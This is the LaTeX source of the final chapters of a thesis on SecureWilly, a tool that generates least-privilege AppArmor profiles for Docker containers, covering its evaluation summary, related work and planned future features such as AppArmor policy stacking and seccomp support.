   
\includegraphics[width=0.65\linewidth]{../figures/scalability/rules_4_t.png}
   \caption{Media streaming with 4 clients}
\end{figure}
\hfill\break\hfill\break
\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.68\linewidth]{../figures/scalability/rules_8_t.png}
   \caption{Media streaming with 8 clients}
\end{figure}

\section{Summary}
All in all, SecureWilly has proved through experimental evaluation that is functional and produces profiles which reach their fundamental goal, and scalable as well, meaning it can handle large increases in services. Furthemore, the performance is exactly as it is expected by its computational complexity and it depends on the performance of the test plan, as SecureWilly does not add any great delays.

In order to perform these testings, SecureWilly used some demanding benchmarks of CloudSuite and also Nextcloud, which is a widely used real software, and the profiles produced by SecureWilly could constitute a useful contribution to the community of Nextcloud.

\clearpage\null\thispagestyle{empty}
\newpage
\chapter{Conclusion}

\section{Thesis Summary}

Preserving security, and more specifically isolation, on docker containers, as well as preventing container attacks, is a very demanding field. It can get even more complicated when trying to balance docker container's functionality with security.

This thesis dealt with security on docker environment, from a practical point of view, as we created a software that automatically produces AppArmor profiles for a docker project. These profiles are adjusted to the given docker project, and consist of the least possible rules that make a profile secure and efficient, based on the Principle of Least Privilege, meaning they will allow exclusively a set of actions and block any other action, considered as redundant. The set of actions that will be allowed is determined by the user, who is asked to provide a test plan of the project. Our software can handle both single and multi service docker projects, and the profiles produced are service-oriented. Therefore, each service is confined by its own profile, which makes the profile more specific about the task of the service it confines, but also aware of the coordination of the project's services.

Except for the software that we created, in the current thesis we present an extensive research on vulnerable features of docker that could lead to violation of container's isolation and we implement specific examples of container breakout attacks, in the context of ethical hacking, which we created in order to extract rules that prevent these attacks, for our software.

Finally, in order to evaluate our software in functionality, performance and scalability we used some benchmarks from CloudSuite, a very useful benchmark suite for cloud services, as well as a real program, Nextcloud, which is a widely used open source, self-hosted file share and communication platform. We successfully produced AppArmor profiles for the services of the benchmarks of CloudSuite and Nextcloud, hoping it will be a useful contribution to the respective communities. We also compared a SecureWilly's profile to a profile created via genprof tool and spotted the differences between them. AppArmor overhead was proven to be barely noticeable and we concluded that SecureWilly produces valuable assets to harden the security of a docker project.

\section{Related Work}

Security is a crucial subject and many people have turned to it in order to assist.

There are already other software which generate AppArmor profiles for docker applications. One of them is \say{bane}, created by Jessie Frazelle. \cite{bane}

Bane receives a configuration file as input by the user, which is adjusted on a docker application, and a profile is produced for it. This configuration file sums up everything that could be extracted as a rule: defining access to files, network and capabilities.

The idea of a configuration file to let user write down some file permissions is brilliant and could be easily adopted by SecureWilly.

On the other hand, bane does not train the application in order to extract more rules based on a test plan, which is an aspect that SecureWilly embraces.

\section{Future Work}

\subsection{Fill the gaps}
SecureWilly's development has been completed so that its goal is achieved but certainly, there are still several features to be fixed. Some of them could be the following:
\begin{itemize}
\item Extract more rules in static analysis
\item Include other syntax forms of Dockerfile instructions and Docker Compose options to static\_parser.py
\item More rules to prevent attacks
\item Alerts about root user in containers
\item More flexible User Interface
\item Support interactive test plans of the project, not only script commands
\item Option of user manually adding rules, through a configuration file
\item Change python scripts into executables (maybe write programs in Go) so that python interpreter is not a requirement
\item Fix the conflict of multiple containers using the same image, when a docker-compose file is not provided
\item Fix clearing volumes by detecting docker project's volumes and deleting them, instead of using docker volume prune
\item CI/CD to build releases on GitHub, through Travis CI, which supports open source projects and Docker
\item Support distributed services
\end{itemize}
SecureWilly is an open source project and contributions are more than welcome. You can find it on GitHub: \url{https://github.com/FaniD/SecureWilly}

\subsection{AppArmor}
\subsubsection{AppArmor 3.0 and future features} \label{newappfeatures}
AppArmor 3.0 is coming and is bringing several new shiny features with it. \cite{app3seth}

First of all, since AppArmor is the main tool SecureWilly is using, we are happy to hear that AppArmor 3.0 will compile and execute its policies much faster. AppArmor policies are compiled from the text to an optimized state machine that can be executed quickly in the kernel. The state machines are cached to speed up future boots. Current version of AppArmor uses a single binary policy cache. This causes several underlying risks. For example, if the default location /etc/apparmor.d/cache is moved or there is a change in kernel, the single cache has to be rebuilt on boot. Situations like that slows down the boot.
  
The upcoming AppArmor version will have multiple caches based on hashing the ABI exposed by the running kernel. In the end, swapping between kernels should be much faster.

Furthermore, AppArmor is working on mediating access to coarse-grained networking, dbus and unix sockets. We should adapt new rules in SecureWilly as soon as the implementations are completed, to improve isolation referring to network, dbus and unix sockets. 

It is also in AppArmor's plans to allow users to supply their own profiles and even restrict policies for specific users and groups. This will open up namespaces to user defined policy and it may help adapt user namespaces to SecureWilly's profiles by creating policies on container's user namespaces. Of course, this will expose more kernel interfaces to userspace, so it should be used thoughtfully.

AppArmor has already had the ability to confine users or do roles for quite a while. 
An AppArmor profile applies to an executable program; if a portion of the program needs different access permissions than other portions need, the program can change hats via change\_hat to a different role, also known as a subprofile. The pam\_apparmor PAM module allows applications to confine authenticated users into subprofiles based on group names, user names, or a default profile. To accomplish this, pam\_apparmor needs to be registered as a PAM session module. \cite{susepam}
Pam\_apparmor creates mappings through policy using hats and requires task calling into pam to be confined. Roles use policy inheritance, which means that a task which is confined by a profile, demands all its children to be confined by the same profile.

However, it is a fact that pam\_apparmor is a difficult tool to setup and has several limitations. In order to work properly, pam\_apparmor needs the whole system to be confined. This causes plenty of issues since total system confinement is not what most people want and not what most policy is setup for. These issues have led pam\_apparmor to being rather unpopular and SecureWilly hasn't adapted it either for the same reasons.

AppArmor is willing to work on it in the future and upgrade pam\_apparmor. It's going to have a config file, it's going to be using change\_profile instead of change\_hat, a user condition is going to include in policies and last but not least it will not require total system confinement. All in all, pam\_apparmor is going to get far easier to use than it is now and SecureWilly is open to reconsider and adapt this tool.

Other possible directions for the future that AppArmor is considering of following and that may help us in container isolation are cgroups and chroot (more than capability SYS\_CHROOT which is currently the only way to allow syscall chroot). Cgroups would be very helpful for restricting access to resources on containers and thus achieving hardware isolation on containers. Chroot implementations would be of great help if we use them in SecureWilly's profiles to restrict the chroot syscall as if it stays within a container and not allow it to happen out of the container and help attackers chroot to host or other containers.

\subsubsection{Policy Namespaces and Stacking}
Two other recent developments of AppArmor that should be attached to SecureWilly are policy namespaces and policy stacking. \cite{app3suse}
\begin{description}
\item[Policy namespaces:] AppArmor has multiple namespaces for policies. Docker can own its profiles and other host's applications can own their profiles. Policy namespaces are hierarchical.  Each namespace has its own set of profiles and its own unconfined state. A policy namespace defines a view, where a parent can see policies in its children and below and through this view we can answer questions like where can a policy be loaded, who can load a policy to where etc. 

\item[Policy stacking:] AppArmor policies can be stacked. Host could be protected from containers with one set of profiles, and then the container could use AppArmor profiles itself to keep its services and users separated from the host and do whatever they need to do. For example, blanket profiles can be applied to all users in a group to keep them in a certain portion of a system, such as “no net” profile or “no capabilities” profile that could be stacked with other profiles and have a very creative policy with all these profiles combined. SecureWilly should use this feature for multiservices projects, to keep a global stacked policy for all services in order to protect the host as well as separate profiles for each service in alignment with what each service requests to do.
\end{description}

If we combine policy namespaces and policy stacking, we get an interesting result.

Let's examine the diagram that figure 6.1 represents. In this tree, we have a system with some hierarchical policy namespaces and a task which is confined by a stacked policy including profiles from system and ns3. What makes the combination of these two interesting, is that although the task is confined by both profiles, it can only see policy from ns3 and below. This is exactly what we are seeking for docker containers. We want containers to be restricted by host for outer namespaces and allowed to load extra policy to restrict themselves in inner namespaces without knowing the existence of the outer namespace.
This could have a further extent to policies for nesting containers within containers.

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.9\linewidth]{figures/policystacking1.png}
   \caption{AppArmor Policy Stacking}
\end{figure}
\hfill\break

To sum up, as soon as AppArmor brings new features SecureWilly is ready to investigate them and adapt them in order to defend container's isolation.

\subsection{Confront other types of attacks}
Currently, SecureWilly focuses on preventing container breakout attacks. Research could be made in other types of attacks in order to create rules that would prevent more isolation violations. There are certainly many aspects that we could examine in order to break down into pieces other types of attacks, like we did with container breakout and through this procedure we may come up with a set of rules that could possibly block some instances of these attacks.

Specifically, DoS attacks could be prevented, if AppArmor had rules that involve cgroups. As we mentioned in the previous section, isolating cgroups in the future is an aspect that AppArmor is considering of. This means that as AppArmor gets more powerful, more attacks could be prevented by SecureWilly.

\subsection{Adopt other hardening tools}
AppArmor is a useful secutiry tool, but as we discussed in Chapter 2, it is not the only one. Seccomp and SELinux are some interesting hardening tools, both supported by Docker's security option, that SecureWilly could adopt and use either as a supplement to AppArmor or as an alternative choice over AppArmor. 

Seccomp (Secure Computing Mode) is a computer security facility in the Linux kernel which limits the program to use a specific set of system calls, which can make the system more secure considering that only a subset of the plenty system calls which are exposed to the programs directly, are actually needed to the users.

SELinux (Security-Enhanced Linux) was already discussed in Chapter 2, as it uses the Linux Security Modules (LSM) as the implementation to handle enforcement within the Linux kernel, like AppArmor. SELinux's approach is comprehensive, and is based on strong security techniques like MAC and Multi-Level Security (MLS). But this makes it rather cumbersome to set up. \cite{appsel} It is however, undeniably, a strong security tool that could be examined and adopted by SecureWilly as an alternative choice over AppArmor.

\subsection{Container orchestration}
SecureWilly already supports multi-service docker projects and succeeds in exporting a profile for each service. Moreover, as it was proved in the scalability testing of Chapter 5, it can handle large increases in services and pruduce effective profiles successfully.

This opens the way to a potential expansion in the area of container orchestration where SecureWilly could be used to support projects running on container orchestration platforms like Docker Swarm, Kubernetes, Apache Mesos, Cloud Foundry etc. This would clearly need some modifications in the source code of SecureWilly, but it is a potential aspect of which SecureWilly has already laid the foundations.


\printbibliography[title={Bibliography},heading=bibintoc]

\end{document}
